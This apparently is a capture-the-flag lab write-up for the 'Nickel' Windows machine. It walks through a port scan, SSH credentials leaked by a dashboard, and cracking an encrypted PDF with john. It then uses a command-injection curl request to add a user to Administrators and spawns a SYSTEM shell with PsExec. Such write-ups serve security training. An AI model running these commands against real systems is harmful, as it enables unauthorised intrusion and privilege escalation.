 ```yaml
---
description: 11-09-2022
---
```


# Nickel (Intermediate)

<figure><img src="../../../.gitbook/assets/image (3) (3) (3).png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8684fdd5432705cfa7f2e9e27570d5f3 (RSA)
|   256 9c93cf48a94e70f460dee1a9c2c0b6ff (ECDSA)
|_  256 004ed73b0f9fe3744d04990bb18bdea5 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-11-10T02:03:11+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nickel
| Issuer: commonName=nickel
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-11-09T01:58:19
| Not valid after:  2023-05-11T01:58:19
| MD5:   ae87078529cc1047117f9699a5364c3c
|_SHA-1: 254de154bbf9a8bcc47973866f5187715b4341bc
| rdp-ntlm-info: 
|   Target_Name: NICKEL
|   NetBIOS_Domain_Name: NICKEL
|   NetBIOS_Computer_Name: NICKEL
|   DNS_Domain_Name: nickel
|   DNS_Computer_Name: nickel
|   Product_Version: 10.0.18362
|_  System_Time: 2022-11-10T02:02:04+00:00
8089/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
| http-methods: 
|_  Supported Methods: GET
|_http-favicon: Unknown favicon MD5: 9D1EAD73E678FA2F51A70A933B0BF017
33333/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-favicon: Unknown favicon MD5: 76C5844B4ABE20F72AA23CBE15B2494E
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
```

Enumerated UDP ports:

```
1000 open|filtered udp ports (no-response)
```

Notes:

* 21/FTP - HTA attack or other client-side attack? Permissions? Version
* 3389/RDP - <mark style="color:yellow;">Product\_Version: 10.0.18362</mark>
* 8089/HTTP - DevOps Dashboard
* 33333/HTTP - Blank as of discovery; "invalid token"

## Enumeration

### Port 8089 - HTTP "DevOps Dashboard"

<figure><img src="../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

* Let's check out List Running Processes as it seems the most interesting

### Unable to Connect

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

Let's change the IP to the target's and try again:

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

* Interesting, the server is reporting that it cannot "GET" the directory
* What if we sent it a POST?

POST Request:

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### SSH Enumeration

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Credentials:

User: ariah

Password: Tm93aXNlU2xvb3BUaGVvcnkxMzkK

* Base64 encoding?

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">ariah:NowiseSloopTheory139</mark>

Connecting to host via SSH:

```
ssh ariah@192.168.81.99
password: NowiseSloopTheory139
```

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Sensitive Information Disclosure

* The list-running-procs function within the poorly configured web app pointed me to SSH credentials which granted me initial foothold of the victim machine

## Privilege Escalation

### Local enumeration

* Interesting file in <mark style="color:yellow;">C:/ftp/infrastructure.pdf</mark>
* <mark style="color:yellow;">Unable to utilize SMB or HTTP for file transfer, remembered SSH was open and utilized SCP for file transfer</mark>

### SCP File Transfer

```
scp ariah@192.168.81.99:C:/ftp/infrastructure.pdf .
ariah@192.168.81.99's password: NowiseSloopTheory139

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00 
```

* We can now access Infrastructure.pdf from our Kali box

Opening PDF:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

* However, when I'm trying to open it, we find out that it is encrypted
  * Sounds like a <mark style="color:yellow;">pdf2john</mark> kind of mission

### pdf2john -- infrastructure.pdf

```
pdf2john Infrastructure.pdf > Infrastructure.hash
Infrastructure.pdf:$pdf$4*4*128*-1060*1*16*14350d814f7c974db9234e3e719e360b*32*6aa1a24681b93038947f76796470dbb100000000000000000000000000000000*32*d9363dc61ac080ac4b9dad4f036888567a2d468a6703faf6216af1eb307921b0
```

Cracking:

```
john --wordlist=/usr/share/wordlists/rockyou.txt Infrastructure.hash

ariah4168        (Infrastructure.pdf)
```

* Successfully cracked password!
* <mark style="color:yellow;">ariah4168</mark>

<figure><img src="../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

### Network Enumeration

* We can see that there is an internal web server running on port 80
* Let's use SSH to port forward it so we can access it on Kali

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### SSH Portforward

```
ssh -f -N -L <kali-bind-ip>:<kali-tcp-port>:<target-side-ip>:<target-tcp-port> username@target-ip

ssh -f -N -L 127.0.0.1:8080:127.0.0.1:80 ariah@192.168.81.99
```

<figure><img src="../../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

* If we refer back to the pdf, there is a command injection endpoint at the root level

```
curl 'http://localhost:8080/?whoami'

nt authority\system
```

* Wow, the web server is running as SYSTEM

Add user ariah to the Administrator group:

```
curl 'http://localhost:1337/?Add-LocalGroupMember%20-Group%20Administrators%20-Member%20ariah'
```

Add psexec to the target with SCP:

{% embed url="https://download.sysinternals.com/files/PSTools.zip" %}

On Kali:

```
scp PsExec64.exe ariah@192.168.81.99:C:/ftp/
```

On Windows Target:

```
PsExec64.exe -accepteula -s cmd.exe
```

## Proof

<figure><img src="../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>
